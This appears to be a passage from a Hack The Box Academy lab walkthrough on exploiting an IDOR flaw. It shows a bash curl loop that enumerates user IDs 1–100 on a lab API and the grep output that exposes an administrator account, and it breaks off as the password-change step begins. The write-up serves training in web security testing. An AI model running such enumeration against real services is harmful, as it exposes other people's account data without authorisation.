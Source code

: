 ![[HTB Solutions/CPTS/z. images/6fd5d16ae09f35b26a1765305157c7a1_MD5.jpg]]

Inspecting the sent requests, students will notice that there is a GET request to the endpoint `/api.php/user/74` which retrieves the data to populates the user's info:

![[HTB Solutions/CPTS/z. images/e253cd79c8c87e9ad2274ef7fdfbe6cf_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/938dabd456c99047e2f556d5ff5f8d02_MD5.jpg]]

Students need to test if this endpoint is vulnerable to IDOR, by changing the `uid` value to be, for example, 75:

![[HTB Solutions/CPTS/z. images/1a5561f8d2c1a721f1619170398b16b2_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/29a13f789338e7a5100daabeaf115b44_MD5.jpg]]

Checking the Response tab of the response received from the sent modified request, students will notice that the endpoint is indeed vulnerable to IDOR, as the data of the user with the `uid` 75 is returned back:

![[HTB Solutions/CPTS/z. images/cf1ef2c89ee8764ad4cb35e00fe81476_MD5.jpg]]

Subsequently, students need to fuzz the `uid` of users from 1 to 100:

Code: bash

```bash
#!/bin/bash

for uid in {1..100}; do
	curl -s "http://STMIP:STMPO/api.php/user/$uid"; echo
done
```

Since students are hunting for privileged users, they need to run the script and use `grep` to search for strings that contain `admin`, finding the user with `uid` 52:

Code: shell

```shell
bash fuzz | grep -i "admin" | jq .
```

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-1s2haz25lu]─[~]
└──╼ [★]$ bash fuzz | grep -i "admin" | jq .
{
  "uid": "52",
  "username": "a.corrales",
  "full_name": "Amor Corrales",
  "company": "Administrator"
}
```

However, the password of the user is still unknown. Analyzing the web application more deeply, students will notice that they can change the password of the current user via the `Settings` page (students need to have the Network tab open still):
